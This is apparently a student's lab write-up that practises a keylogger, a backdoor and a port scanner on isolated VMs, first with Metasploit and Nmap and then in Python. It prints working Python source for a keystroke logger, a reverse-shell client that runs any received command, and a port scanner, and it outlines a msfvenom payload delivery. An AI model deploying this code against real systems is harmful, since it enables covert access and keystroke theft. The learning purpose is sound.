










Offensive Security Fundamentals: Keylogger, Backdoor, and Port Scanner
intro
Objective
The goal of this project was to get hands-on practice with three classic offensive security building blocks: a keylogger, a backdoor, and a port scanner. For each one, I go through it twice, first using an existing tool, to understand the workflow and the principles behind it quickly, and then again by writing a simplified version myself in Python. Being able to use a tool is useful, but being able to code and adapt the underlying logic myself felt like the more durable skill to build toward.
Environment
- Kali Linux - attacker machine
- Windows - target machine
- Both machines hosted as VirtualBox VMs, to keep the work isolated from my own machine and to allow a proper attacker/target scenario
Worth stating clearly: everything here was done in my own isolated lab, against my own VMs. Trying any of this on a system you don't own or don't have explicit permission to test is illegal — this is purely for learning.
Method
Keylogger
With Kali Linux (Metasploit):
Using LHOST = 192.168.100.1 and LPORT = 4444, I generated a Windows reverse-TCP
Meterpreter payload with msfvenom, set up a matching listener in msfconsole via exploit/multi/handler, then transferred
the payload to the target using a quick Python HTTP server (python3 -m http.server 8000) and wget on the Windows side.
Executing the payload on the target opened a Meterpreter session on the attacker machine, from which keyscan_start and
keyscan_dump captured and displayed keystrokes typed on the target since the keylogger started.

In Python
I then wrote a simplified version myself using the keyboard library, which allows hooking global keyboard events. Using
keyboard.on_press(), every key-down event triggers a callback (on_key_press) that appends the key name
to a local keystrokes.log file. keyboard.wait() keeps the program running (similar to a while True loop)
until manually stopped. Unlike the Metasploit version, this one only logs locally rather than exfiltrating to an attacker machine,
though that's a fairly small step to add later.
import keyboard
log_file = "keystrokes.log"
def on_key_press(event):
with open(log_file, "a") as f:
f.write(event.name)
keyboard.on_press(on_key_press)
keyboard.wait()

Backdoor
With Kali Linux (Metasploit):
Starting from the same Meterpreter shell setup as the keylogger, I explored the available post-exploitation commands
via help. I tried the screenshot command (captures the target's current desktop), screenshare
(live remote view of the target desktop), sysinfo (returns OS details, logged-in users, and other system info), and
shell (drops into a native command line on the target).


In Python
I then wrote a simplified client-server backdoor myself. The server binds to a host/port and listens for a connection; once a client
connects, it repeatedly prompts for a shell command, sends it to the client, and prints back whatever the client returns. The client
connects to the server, and in a loop receives a command, executes it locally via subprocess.run(), and sends the
combined stdout/stderr back to the server.
// Server
import socket
serversocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = '192.168.100.1'
port = 4444
serversocket.bind((host, port))
serversocket.listen(1)
while True:
clientsocket, addr = serversocket.accept()
print(f"Connection from {addr}")
message = 'Welcome to the server!'
clientsocket.send(message.encode())
while True:
command = input("Shell> ")
clientsocket.send(command.encode())
output = clientsocket.recv(4096).decode()
print(output)
clientsocket.close()
// Client
import socket
import subprocess
clientsocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = '192.168.100.1'
port = 4444
clientsocket.connect((host, port))
message = clientsocket.recv(1024).decode()
print(message)
while True:
command = clientsocket.recv(1024).decode()
result = subprocess.run(command, shell=True, capture_output=True, text=True)
output = result.stdout + result.stderr
clientsocket.send(output.encode())
clientsocket.close()



Portscanner
Port scanning reveals which ports on a target are open, closed, or filtered behind a firewall. Paired with a tool like Nmap, it also reveals what software or service is running on each open port — information that can then be checked against known vulnerabilities for that specific software version.
With Kali Linux (Nmap):
A basic nmap <ip> scan against the Windows VM returned the open ports and
the services running on them.

Adding the -sV flag returns the exact version of each service, which is what actually makes
the scan useful for vulnerability research — knowing a web server is running is far less actionable
than knowing it's a specific version with a documented CVE.

In Python:
For the final part, I wrote a simple port scanner using the socket library. The user specifies
a target IP and how many ports to scan (from port 1 up to that number); the scanner attempts a connection
to each port with a short timeout, and reports any that are open. If the connection returns additional data
on connect (a banner), that's captured and displayed alongside the port number.
import socket
# Captures any additional information sent along the connection
def get_banner(s):
return s.recv(1024)
# Scan one individual port
def scan_port(addr, port):
try:
sock = socket.socket()
sock.settimeout(0.3)
sock.connect((addr, port))
try:
banner = get_banner(sock)
print('[+] Open Port ' + str(port) + ' :' + str(banner.decode().strip('\n')))
except:
print('[+] Open Port ' + str(port))
sock.close()
except (socket.timeout, ConnectionRefusedError):
pass
def scan(target, ports):
print('\n' + '*** Starting scan for ' + str(target) + ' ***')
for port in range(1, ports):
scan_port(target, port)
target = input('[+] Enter target to scan: ')
print('\n' + 'The scan is conducted consecutively, from port 1 up until the specified number of ports.')
ports = int(input('[+] Enter how many ports to scan: ')) + 1
scan(target, ports)

Reflection: What writing the Python versions actually taught me
Using Metasploit and Nmap first was the right call for getting oriented quickly, but writing the simplified Python versions afterward is where the actual understanding clicked into place. With Metasploit,
keyscan_startandkeyscan_dumpjust work — there's no visibility into how keystrokes are being captured and shipped back. Writing the keylogger myself made it obvious that it's really just a callback registered against key-press events, appending to a file. Same with the backdoor: Meterpreter gives you a fully-featured remote shell, but building the client-server version myself made the actual mechanic clear — a socket connection, a loop that sends a command and waits for output, andsubprocess.run()doing the real execution on the other end. None of my versions are as capable as the tool equivalents (no encryption, no persistence, no evasion), but that gap is exactly what made the comparison useful — it showed me which parts of a "real" tool are the hard, engineered parts, versus which parts are conceptually simple once you strip the polish away.
Reflection: Cross-platform friction was its own lesson
A good chunk of the actual difficulty in this project had nothing to do with the security concepts themselves — it was getting a Windows VM working correctly as a target. Between figuring out how to actually run a downloaded executable, adjusting network settings, and disabling firewall rules that were silently blocking the exact traffic I was trying to generate, I spent more time on VM/OS setup friction than on the exploitation logic. In hindsight, that's a realistic reflection of the work itself: a lot of offensive (and defensive) security work is less about clever exploits and more about patiently working through environment-specific quirks until the thing you're testing actually behaves the way your diagram says it should.
Overall Takeaways
- Using a mature tool first (Metasploit, Nmap) is a fast way to understand a technique's workflow and outcome, but re-implementing a simplified version in code is what actually builds transferable understanding of the underlying mechanism.
- Tools abstract away real complexity — encryption, persistence, evasion — that's easy to overlook when a single command "just works."
- Nmap's basic scan tells you what's open; the
-sVflag is what turns that into something actionable, by identifying exact s ervice versions that can be checked against known vulnerabilities. - A meaningful share of practical security work is cross-platform setup friction (networking, firewalls, OS-specific execution quirks) rather than the "exploit" itself.